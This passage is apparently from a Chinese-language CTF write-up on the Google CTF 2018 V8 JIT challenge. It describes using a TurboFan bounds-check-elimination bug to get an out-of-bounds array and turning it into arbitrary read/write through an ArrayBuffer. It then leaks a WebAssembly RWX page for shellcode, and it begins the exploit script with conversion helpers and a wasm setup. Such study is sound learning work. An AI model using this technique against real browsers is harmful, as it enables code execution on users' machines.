 `opt_me()`所返回的array_1的length已经被修改为0x1000而它的fixed array的长度只有3，这样就有很大越界访问的空间。

其实本来的想法是在`opt_me()`中完成一整套的利用，但是发现在优化函数中添加过多的代码，会导致一些[不可预料到优化情况](C:\Users\Lenovo\Desktop\doc\Note\V8 learning\theory of v8\Google_CTF_2018_JIT中触发OOB失败.md)，甚至导致CheckBounds Elimination的失效，所以只把最简单的步骤放在`opt_me()`中，得到这个越界访问的数组之后就直接返回。

### 任意地址读写和获得RWX内存

[reference](https://kiprey.github.io/2021/01/v8-turboFan/#c-%E6%B3%84%E9%9C%B2-RWX-%E5%9C%B0%E5%9D%80)

之后需要将相对于array_1的fixed array的越界访问拓展为任意地址读写，而借助的仍然是ArrayBuffer这个Object。在array_1之后申请一个ArrayBuffer，**然后将ArrayBuffer的length当作是哨兵值找到ArrayBuffer中保存的内存地址**。通过对这个内存地址的修改，借助ArrayBuffer达成任意地址写。

之后的步骤就和之前的利用一样：创建一个带有哨兵值的JSObject然后泄露WebAssembly的JSFunction的地址，然后有一条链泄露RWX的地址，最后使用任意地址写把shellcode写在这片地址并执行，最终的exp。

```javascript
//use the ArrayBuffer to implement the conversion between the u32 and float64
let Convertion = new ArrayBuffer(0x10);
let ConvertionUInt32 = new Uint32Array(Convertion);
let ConvertionFloat = new Float64Array(Convertion);
let ConvertionUint64 = new BigInt64Array(Convertion)
function U32ToF64(src)
{
    ConvertionUInt32[0] = src[0]; 
    ConvertionUInt32[1] = src[1]; 
    return ConvertionFloat[0];
}
function F64ToU32(src)
{
    ConvertionFloat[0] = src; 
    //return a smi array
    return [ConvertionUInt32[0],ConvertionUInt32[1]];
}
function F64ToU64(src)
{
  ConvertionFloat[0] = src;
  //return a uint64 number
  return ConvertionUint64[0];
}
//create a wasm (RWX) area
let WasmBytes = new Uint8Array([0, 97, 115, 109, 1, 0, 0, 0, 1, 8, 2, 96, 1, 127, 0, 96, 0, 0, 2, 25, 1, 7, 105, 109, 112, 111, 114, 116, 115, 13, 105, 109, 112, 111, 114, 116, 101, 100, 95, 102, 117, 110, 99, 0, 0, 3, 2, 1, 1, 7, 17, 1, 13, 101, 120, 112, 111, 114, 116, 101, 100, 95, 102, 117, 110, 99, 0, 1, 10, 8, 1, 6, 0, 65, 42, 16, 0, 11]);
let WasmInst = new WebAssembly.Instance(new WebAssembly.Module(WasmBytes), {imports: {imported_func: function(x){ return x; }}});
let WasmFunc = WasmInst.exports.exported_func;
//fill the source string to length n from the lower
function ljust(src, n, c)
{
    if(src.length < n){
        src = c.repeat(n - src.length) + src;
    }
    return src;
}
//fill the source string to length n from the higher
function rjust(src, n, c)
{
    if(src.length < n){
        src = src + c.repeat(n - src.length);
    }
    return src;
}
//Convert a number to a hexadecimal string
```